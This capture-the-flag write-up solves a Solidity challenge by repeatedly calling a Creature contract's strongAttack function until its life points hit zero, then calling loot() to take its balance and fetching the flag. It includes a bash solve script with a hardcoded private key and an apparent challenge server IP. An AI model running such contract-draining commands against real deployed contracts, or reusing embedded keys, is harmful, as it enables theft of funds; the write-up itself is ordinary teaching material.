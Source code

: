# Survival of the fittest

We are provided with two Solidity contracts, `Setup.sol` and `Creature.sol`. The goal of this challenge is to interact with the Creature contract deployed by the Setup contract and drain its life points to trigger the `loot` function and obtain the flag.

## Contract Overview
### Setup.sol
`Setup.sol` is the main contract used to set up the challenge. It does the following:

1. Requires 1 Ether to be sent upon deployment.
2. Creates an instance of the `Creature` contract and stores it as `TARGET`.
3. Provides a `isSolved` function to check if the challenge is solved.

### Creature.sol
`Creature.sol` represents the creature with life points that you need to attack and eventually loot. It has the following functions:

* `strongAttack(uint256 _damage)`: Deals damage to the creature.
* `punch()`: Deals 1 damage to the creature.
* `loot()`: Allows you to loot the creature's balance when its life points reach 0.

## Solution

1. Find vulnerable function
When looking through the `loot()` function, we can see something fishy. 
```solidity
function loot() external {
        require(lifePoints == 0, "Creature is still alive!");
        payable(msg.sender).transfer(address(this).balance);
    }
```
This will check if the `lifePoints` is equal to 0. If it is NOT equal, it returns that the `"Creature is still alive!"`. 

But when lifePoints are 0, it will transfer the entire balance of the current contract `(address(this))` to the `msg.sender`.

AKA, transfer us all of the money 😎

2. Now we need to find a way for us to make our `lifePoints` to 0. This can be done with either the `punch()` function
```solidity
function punch() external {
        _dealDamage(1);
    }
```
or the `strongAttack(uint256 _damage)` function
```solidity
function strongAttack(uint256 _damage) external{
        _dealDamage(_damage);
    }
``` 
where both of these will call the `dealDamage(uint256 _damage)` function where it will reduce the `lifePoints` to `-= _damage;`
```solidity
function _dealDamage(uint256 _damage) internal {
        aggro = msg.sender;
        lifePoints -= _damage;
    }
```

2. Check Initial Life Points
I will use the cast call command to check the initial life points of my wallet. We should have 20.
```bash
cast call *targetadress* "lifePoints()" --rpc-url https://x.x.x.x/rpc
```

3. Attack!!
Then to leak the flag we will make a loop that will run 20 times with using the `strongAttack` function where we set the `_damage` to 1, until we have a lifepoint of 0.  
```bash
for ((i=0; i<20; i++)); do
    cast send *targetadress* "strongAttack(uint256)" 1 --rpc-url https://x.x.x.x/rpc --private-key *privatekey*
done
```

4. Loot the Creature
Once the creature's life points reach 0, we can use the loot function to obtain its balance.

```bash
cast send *targetadress* "loot()" --rpc-url https://x.x.x.x/rpc --private-key *privatekey*
```

5. Obtain the Flag
Either go to your web browser and go to the `/flag` endpoing or use `curl` to retrieve the flag.

```bash
curl -s "$url/flag"
```

And the solution I made is this script where we just pass in the url, privatekey and target address as a variable.
```bash
#!/bin/bash

target_adress=0x0cE6FDF176e76B287b1B22FcC24E0a4a4DdB3FE9
private_key=0xdbcef11a58213e62451d140c64ba3fb7a715570a4ea9772d7eeab2d075ddbf12

cast call $target_adress "lifePoints()" --rpc-url http://167.172.62.51:31520/rpc

for ((i=0; i<20; i++)); do
    cast send $target_adress "strongAttack(uint256)" 1 --rpc-url http://167.172.62.51:31520/rpc --private-key $private_key
    cast call $target_adress "lifePoints()" --rpc-url http://167.172.62.51:31520/rpc
done

cast send $target_adress "loot()" --rpc-url http://167.172.62.51:31520/rpc --private-key $private_key

curl -s "http://167.172.62.51:31520/flag"
echo 
```

But it could be narrowed down to these commands
```bash
cast call $target_adress "lifePoints()" --rpc-url http://167.172.62.51:31520/rpc
```
```bash
cast send $target_adress "strongAttack(uint256)" 1 --rpc-url http://167.172.62.51:31520/rpc --private-key $private_key
s
```
```bash
cast send $target_adress "loot()" --rpc-url http://167.172.62.51:31520/rpc --private-key $private_key
```
```bash
curl -s "http://167.172.62.51:31520/flag"
```